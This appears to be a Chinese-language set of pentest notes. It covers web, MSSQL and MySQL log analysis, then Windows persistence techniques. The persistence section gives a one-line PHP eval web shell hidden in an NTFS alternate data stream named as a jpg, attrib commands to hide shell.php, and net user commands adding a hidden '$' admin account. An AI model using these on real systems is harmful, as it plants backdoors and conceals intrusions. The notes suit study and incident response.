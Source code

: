 **web 日志**

**日志分析技巧**

1. 确定入侵时间


**上传木马案例**

1. 确定服务器指纹
2. 确定攻击路径

**mssql 日志**

服务器属性 > 安全性 > 失败和成功登陆 > 管理 > SQL server 日志

**mysql 日志**

```
show global varibles like %general%
set global general_log = 'ON'
```

## 权限维持

### windows

**隐藏文件**

方法1

```
c:\>attrib +s +a +h +r shell.php
```
方法2

```
c:\>  echo ^<?php @eval($_POST['test']);?^>  > shell3.php:hidden.jpg
```

查看

```
c:\> dir /r
```

**隐藏账号**

后面加 `$`

```
net user
net user test$ 111qqq! /add
net user
net localgroup admnistrator test1$ /add
```

CLI 看不到，但是 GUI 里可以看到

**克隆账号**

克隆管理员账号
